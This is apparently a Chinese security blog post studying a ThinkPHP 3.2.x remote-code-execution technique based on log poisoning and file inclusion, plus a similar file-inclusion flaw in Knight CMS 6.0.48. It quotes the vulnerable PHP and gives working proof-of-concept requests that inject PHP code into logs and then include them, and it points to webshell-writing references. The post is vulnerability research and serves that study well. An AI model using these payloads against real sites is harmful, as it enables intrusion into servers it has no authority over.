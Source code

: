 ```yaml
---
layout: post
title: "【网络安全】ThinkPHP 3.2.X RCE学习"
subtitle: "骑士CMS文件包含漏洞"
date: 2024-08-08
author: "3thernet"
header-img: "img/bg-touhou-1.jpg"
tags: []
---
```


## 0x01 ThinkPHP 3.2.X RCE

攻防遇到了很多的 ThinkPHP 3.2.x，本以为低版本TP有 RCE 可以打，但读了网上的文章后才发现并不是TP本身的问题，而是 assign 方法的第一个变量可控会造成任意文件包含，从而导致 RCE（换言之，一般是使用TP框架的程序员自己写控制器时写出了洞）。ThinkPHP 在`/Application/Runtime/Logs/Home/年份_月份_日期.log`下会记录 model 错误，构造特定的请求写入日志文件，然后用任意文件包含引入日志文件即可造成 RCE. 

在 debug 模式下，日志文件会直接泄露出来，如果没开 debug 模式也可尝试盲打。（注意 Application 可能修改为其他名称，比如data，可以尝试 fuzz）

```
若开启debug模式日志会到：\Application\Runtime\Logs\Home\下
若未开启debug模式日志会到：\Application\Runtime\Logs\Common\下
```

用 Burp 写入`/index.php?m=--><?=phpinfo();?>`（不要直接用浏览器写入）

日志如下：

![](../img/2024-08-08-thinkphp32x-rce/1.png)

自行搭建靶场测试请参考：

- [ThinkPHP3.2.X通用漏洞复现 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12773)
- [炒冷饭之ThinkPHP3.2.X RCE漏洞分析 - sevck - 博客园 (cnblogs.com)](https://www.cnblogs.com/sevck/p/15012267.html)
- [【漏洞通报】ThinkPHP3.2.x RCE漏洞通报-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1855060)

## 0x02 骑士CMS RCE

骑士CMS 6.0.48 存在一处任意文件包含漏洞，与 ThinkPHP 3.2.X 通用RCE有些相似。

漏洞在于 assign_resume_tpl 方法：

```php
public function assign_resume_tpl($variable,$tpl){
        foreach ($variable as $key => $value) {
            $this->assign($key,$value);
        }
        return $this->fetch($tpl);
}
```

fetch 方法在`$tpl`不存在时会将 payload 写入 log：

```php
// 模板文件不存在直接返回
if(!is_file($templateFile)) E(L('_TEMPLATE_NOT_EXIST_').':'.$templateFile);
```

fetch 方法还会调用`Hook:listen('view_parse', $params)`将模板文件解析与编译生成缓存文件`xxx.php`，然后调用Load加载这个编译好的缓存文件。

详细攻击链分析：

- [骑士 CMS 远程命令执行分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8520)

- [骑士cms从任意文件包含到远程代码执行漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8596)

`$tpl`变量可控，因此可以先通过 assign_resume_tpl 的 fetch 方法将 payload 写入log，再通过 assign_resume_tpl 方法包含存在 payload 的 log 文件。

也可以一步到位，直接通过 assign_resume_tpl 方法包含木马文件。根据上面两篇文章，官方的补丁包只是阻止 payload 写入日志，并没有阻止任意文件包含。（过去这么久应该修复了吧？）

POC:

```
POST /index.php?m=home&a=assign_resume_tpl HTTP/1.1
Host:

variable=1&tpl=<?php phpinfo(); ob_flush();?>
```

访问`http://example.com/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=data/Runtime/Logs/Home/年份_月份_日期.log`即可看到回显。注意由于 fetch 中包含`ob_get_clean`，所以必须要包含`ob_flush();`。

如果POC出现404，那么大概率是被修复了。

写马参考：

- [74cms 6.0.20版本文件包含漏洞复现_74cms v6 源码-CSDN博客](https://blog.csdn.net/csdnmmd/article/details/117689687)

# 
